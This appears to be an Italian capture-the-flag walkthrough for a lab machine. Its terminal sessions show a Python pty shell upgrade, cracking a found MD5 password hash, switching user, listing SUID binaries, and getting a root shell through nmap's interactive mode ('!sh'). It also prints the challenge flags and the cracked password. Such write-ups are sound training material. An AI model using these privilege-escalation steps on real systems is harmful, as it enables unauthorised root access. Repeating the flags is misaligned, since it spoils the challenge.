 1) Upgrade shell con python: python -c 'import pty; pty.spawn("/bin/bash")'
2) Nella directory /home/robot troverai la password sottoforma di hash md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

3)  Sul sito  Crackstation è semplice trovare la corrispondenza: abcdefghijklmnopqrstuvwxyz
4) Poi digiti: su robot     
5) Una volta che avrai digitato la password è fai l'accesso all'account robot ti trovi la seconda chiave:
daemon@linux:/home/robot$ su robot 
su robot 
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ whoami
whoami
robot
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959   <------- Seconda Chiave
robot@linux:~$  

6) Cerchiamo File binari che possiamo eseguire come sudo: 
robot@linux:/bin$  find / -perm +6000 2>/dev/null | grep "/bin/"
 find / -perm +6000 2>/dev/null | grep "/bin/"
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
robot@linux:/bin$ 

7) Richiami la shell interattiva di nmap:  nmap --interactive
8) E poi nella shell interattiva digiti: !sh
---> Questo farà spawnare una shell e dato che è eseguita solo da root farà spawnare proprio la 
        shell root

9) Accediamo alla directory e mandi in output la terza chiave: 

robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>  !sh
 !sh
# whoami
whoami
root
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4      <---- Terza Flag
# 




